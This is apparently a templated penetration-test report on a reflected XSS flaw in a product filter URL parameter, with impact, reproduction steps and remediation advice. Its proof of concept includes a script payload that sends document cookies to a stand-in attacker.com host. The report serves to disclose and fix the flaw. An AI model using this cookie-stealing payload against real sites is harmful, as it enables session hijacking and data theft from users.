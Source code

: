 # Penetration Testing Writeup: XSS in URL Parameter

## Executive Summary

A penetration test on [Target Application] revealed a Reflected Cross-Site
Scripting (XSS) vulnerability in a URL parameter. This flaw allows attackers to
inject scripts that execute in users’ browsers, posing risks like session
hijacking and data theft. This report details the vulnerability and remediation
steps.

## Vulnerability Details

- **Vulnerability Type**: Cross-Site Scripting (XSS) - Reflected
- **Severity**: High
- **Affected Component**: Product filter URL parameter
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **Location**: `https://[target-application]/products?filter=[input]`
- **Discovered By**: [PenTester Name]
- **Date Discovered**: August 25, 2025

### Description

The product filter URL parameter is not sanitized, allowing attackers to inject
malicious scripts that are reflected in the response and executed in the
victim’s browser.

### Impact

- **Session Compromise**: Cookies can be stolen.
- **Phishing**: Fake login pages can be displayed.
- **Data Theft**: Sensitive data can be exfiltrated.
- **Defacement**: Page content can be altered.

### Proof of Concept

1. Visit:
   `https://[target-application]/products?filter=<script>alert('XSS');</script>`.
2. Observe an alert box.
3. Malicious payload:
   `<script>fetch('https://attacker.com/steal?cookie='+document.cookie);</script>`.

### Steps to Reproduce

1. Navigate to `https://[target-application]/products`.
2. Append `?filter=<script>alert('XSS');</script>` to the URL.
3. Load the URL and verify the alert.

## Remediation Recommendations

1. **Input Sanitization**:
   - Validate filter inputs to allow only safe characters.
2. **Output Encoding**:
   - Encode outputs before rendering.
3. **Content Security Policy**:
   - Use CSP: `Content-Security-Policy: script-src 'self';`.
4. **Developer Training**:
   - Educate on secure coding practices.
5. **Security Audits**:
   - Perform regular penetration tests.

## Conclusion

The XSS vulnerability in [Target Application]’s product filter requires
immediate action to protect users and maintain security.

## References

- OWASP XSS Prevention Cheat Sheet:
  https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html

![URL XSS Example](https://example.com/images/url-xss-example.png)
